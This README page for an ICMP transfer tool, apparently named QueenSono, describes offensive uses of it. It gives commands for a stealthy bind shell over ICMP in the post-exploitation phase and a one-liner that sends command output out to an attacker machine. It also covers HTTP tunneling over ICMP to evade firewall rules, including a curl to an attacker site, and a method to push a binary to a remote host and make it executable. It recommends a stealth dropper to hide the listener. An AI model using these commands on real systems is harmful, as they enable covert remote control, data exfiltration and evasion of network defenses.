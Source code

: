 # Hack

<p align="center"><sup>🧞 "All scripts are there for inspiration and are probably not stable. If you see a good use case and need a more reliable solution, please open an issue"</sup></p>

Some fun things using `QueenSono`
- [Bind Shell](#bind-shell)
  - [One-liner redirect command output](#one-liner-redirect-command-output)
- [HTTP over ICMP tunneling](#http-over-icmp-tunneling)
- [Send binary file](#send-binary-file)

## Bind Shell
<h5 align="center">In <code>QueenSono/hack/bindshell</code></h5>

<p align="center"><i> It is a "bind shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** Sometimes, and for the post exploitation phase it is more suited, you need a bind shell. if ICMP is less monitored than other protocol (eg TCP), having a bind shell trough `QueenSono` is more stealthy.

#### How to do it?

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-bindshell.gif)
On both machines you need to have `qssender`and `qsreceiver`

*> On the target machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the attacker machine:* Bind to the target shell
```
./bindshell.sh <ip_target> <ip_listening_for_icmp>
```

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [fileless-xec](https://github.com/ariary/fileless-xec) repo.*

### One-liner redirect command output

Useful if you can't spawn a shell and thus don't have output for command. You could redirect the output to your attacker machine:
```
export CMD=$([cmd]);qssender send "$CMD" -d 1 -l $LISTEN -r $REMOTE -s 100 -N
```

## HTTP over ICMP tunneling

For a much more sophisticated ICMP tunneling solution see [icmptunnel](https://github.com/DhavalKapil/icmptunnel)

<h5 align="center">In <code>QueenSono/hack/tunneling</code></h5>

<p align="center"><i> Access internet by tunneling HTTP request with ICMP</i></p>

### Use case
* Access internet but firewall rules block http traffic but allow icmp 
* If you want to hide your http tracks 
* Access internal webapp (in this case, put the `qsproxy` in the target machine and `qscurl` in the attacker machine)

#### How to do it?
```
need cap_net_raw cap         need internet access

        ┌───────────┐         ┌───────────────┐           ┌────────────┐
        │           │    1    │               │    2      │            │
        │  qscurl   └─────────►    qsproxy    └───────────►World  wide │
        │           ◄─────────┐               ◄───────────┐    web     │
        └───────────┘    4    └───────────────┘     3     │            │
                                                          └────────────┘
```
1 & 4 are using icmp protocol
2 & 3 are using http protocol

*> On the attacker machine:* Launch the proxy
```
./qsproxy.sh <ip_listening>
```

*> On the target machine:* Order a curl request to be performed by attacker machine
```
# before modify qscurl.sh with according LISTEN and REMOTE addresses
./qscurl.sh http://myawesomeattackersite.com -H \"toto:titi\"
```

## Send binary file

*It is also applicable for all non-human readable files.*

See [this](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-network-restriction-with-icmp) to receive & execute binary in 1 step on remote

Launch your listener on receiver machine:
```
qsreceiver receive -l 0.0.0.0 -f [binary64] && cat [binary64] | base 64 -d > [binary] && chmod +x [binary]
```

On sender machine, encode binary file, send it, remove temporary file:
```bash
cat [binary] | base64 > tmpBinary64
qssender send file -d 1 -l 0.0.0.0 -r [receiver_ip] -s 50000 tmpBinary64 # It is recommanded to use -s 50000 but you could put another value
rm tmpBinary64
```



        
        

